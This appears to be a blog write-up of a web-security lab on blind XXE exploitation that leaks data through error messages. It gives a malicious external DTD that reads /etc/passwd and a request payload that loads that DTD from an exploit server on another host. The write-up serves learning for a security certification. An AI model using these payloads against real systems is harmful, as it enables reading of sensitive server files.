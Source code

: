 ```yaml
---
layout: post
title:  "Exploiting blind XXE to retrieve data via error messages"
date:   2024-11-23 10:20:54 +0530
categories: [BSCP, XXE]
---
```


## Objective 

This lab has a `"Check stock"` feature that parses XML input but does not display the result.

To solve the lab, `use an external DTD to trigger an error message that displays the contents of the /etc/passwd file`.

The lab contains a link to an exploit server on a different domain where you can host your malicious DTD. 

## Solution 

In the exploit server, we have created a malicious dtd file with a content where it fetches the contents of `/etc/passwd` and causes an error in file not found error and along with that we can see the contents of `/etc/passwd`

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```

Now just like the lab, we can use the payload here

```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM
"https://exploit-0ab700ba0347f44b85cbfe1b01d10072.exploit-server.net/exploit.dtd"> %xxe;]><stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>
```

Last time, we provided an external collaborator and got the response through that.. But here we didn't provide any external server or nothing.. instead we made a `exploit.dtd` which is intentionally getting crashed in the seconf step where we provided `file:///nonexistent/` which means it will cause an error like `File not found` and along with that `%file` which will disclose the contents of `/etc/passwd`

Now send the request with payload, observing the response with the contents of `/etc/passwd` which as expected 

![]({{ site.baseurl }}/assets/images/xxe/xxe-24.png)

And the lab is solved..

![]({{ site.baseurl }}/assets/images/xxe/xxe-25.png)